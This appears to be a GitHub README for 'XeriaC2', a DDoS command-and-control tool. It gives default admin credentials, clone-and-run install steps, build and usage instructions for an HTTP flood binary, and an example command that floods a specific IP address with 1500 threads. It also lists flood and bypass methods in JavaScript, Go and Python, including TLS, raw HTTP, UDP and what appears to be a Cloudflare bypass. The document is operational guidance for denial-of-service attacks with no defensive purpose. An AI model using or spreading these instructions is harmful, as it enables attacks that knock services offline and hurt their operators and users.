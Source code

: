 ## ADMIN/PASSWORD
Username : admin

Password : admin

## How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

## Wanna Update Method?
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

and scroll you can get the method maybe node HTTP-FLOOD.js 

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
